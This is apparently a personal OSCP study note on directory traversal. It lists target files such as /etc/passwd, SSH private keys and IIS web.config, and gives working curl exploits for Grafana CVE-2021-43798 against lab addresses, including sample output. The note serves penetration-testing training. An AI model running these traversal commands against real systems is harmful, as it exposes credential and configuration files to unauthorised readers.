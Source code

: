 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - web_application
  - web_app
  - web_app_attack
  - directory_traversal
author: Mehdi N Tehrani
creat_date: 2023-12-23
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# General
## Linux Root Filesystem Structure
[Linux Root Filesystem](https://www.ibm.com/docs/pl/aix/7.1?topic=tree-root-file-system)

## PHP URL handling
#php #php_predefined_variables
PHP 4 and later versions
	- https://www.php.net/manual/en/reserved.variables.get.php

# exploitation
## Linux
```
/etc/passwd
/home/user/.ssh/id_rsa
```

## Windows
#iis #internet_information_services #windows
if website is served on IIS:
```
C:\inetpub\logs\LogFiles\W3SVC\
C:\innetpub\wwwroot\web.config
```

> While [RFC 1738](https://www.rfc-editor.org/rfc/rfc1738.html) specifies to always use slashes in a URL, we may encounter web applications on Windows which are only vulnerable to directory traversal using backslashes. Therefore, we should always try to leverage **both forward slashes and backslashes** when examining a potential directory traversal vulnerability in a web application running on Windows.

# Encoding special characters
https://j0vsec.com/post/cve-2021-43798/
#grafana #cve_2021_43798
#linux
Search: `golangexample cve-2021-43798`

```
curl -s "http://192.168.222.16:3000/login/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

curl -s --path-as-is "http://192.168.222.16:3000/public/plugins/mysql/../../../../../../../../opt/install.txt"
```


```
$ curl -s --path-as-is 'http://192.168.190.193:3000/public/plugins/mysql/../../../../../VERSION'

8.0.1
```

## Windows root directory
#windows
```
curl -s --path-as-is --proxy 127.0.0.1:8080 "http://192.168.190.193:3000/public/plugins/mysql/../../../../../../../../Users/install.txt"
```
